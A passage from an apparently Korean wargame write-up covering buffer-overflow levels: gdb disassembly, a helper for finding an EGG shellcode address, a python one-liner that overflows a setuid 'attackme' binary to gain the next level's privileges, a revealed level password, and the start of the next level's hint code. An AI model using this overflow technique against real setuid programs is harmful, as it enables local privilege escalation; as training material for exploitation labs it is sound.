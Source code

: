 ```assembler
0x0804849e <main+46>:	sub    esp,0xc
0x080484a1 <main+49>:	lea    eax,[ebp-264]
0x080484a7 <main+55>:	push   eax
0x080484a8 <main+56>:	call   0x804831c <gets>
0x080484ad <main+61>:	add    esp,0x10
0x080484b0 <main+64>:	sub    esp,0x8
0x080484b3 <main+67>:	lea    eax,[ebp-264]
; move eax, ebp-264
0x080484b9 <main+73>:	push   eax
0x080484ba <main+74>:	push   0x804854c
0x080484bf <main+79>:	call   0x804834c <printf>
0x080484c4 <main+84>:	add    esp,0x10
0x080484c7 <main+87>:	leave
0x080484c8 <main+88>:	ret
0x080484c9 <main+89>:	lea    esi,[esi]
0x080484cc <main+92>:	nop
0x080484cd <main+93>:	nop
0x080484ce <main+94>:	nop
0x080484cf <main+95>:	nop
```

### 4. eggshell address
```c
int main()
{
	printf("EGG addr : %p\n",getenv("EGG"));
}
```
eggshell은 실행마다 getenv 주소가 바뀌게 된다. 따라서 EGG 환경 변수 주소를 파악하는데 위와 같은 소스를 이용하여 재확인해야 한다.

### 5. exploit
(python -c 'print "A"*268+"\x7d\xf4\xff\xbf"';cat) | /home/level12/attackme

Level13 Password is "have no clue".

표준입력을 인자로 받는 gets함수는 () | 를 통해 인자값을 넣어줘야 한다.

## Level12

### 1. Directory info
-rwsr-x---    1 level14  level13     13953  3월  8  2003 attackme

-rw-r-----    1 root     level13       258  3월  8  2003 hint

drwxr-xr-x    2 root     level13      4096  2월 24  2002 public_html

drwxrwxr-x    2 root     level13      4096  1월 11  2009 tmp


### 2. hint
```c
#include <stdlib.h>

main(int argc, char *argv[])
{
   long i=0x1234567;
   char buf[1024];

   setreuid( 3094, 3094 );
   if(argc > 1)
   strcpy(buf,argv[1]);

   if(i != 0x1234567) {
   printf(" Warnning: Buffer Overflow !!! \n");
   kill(0,11);
```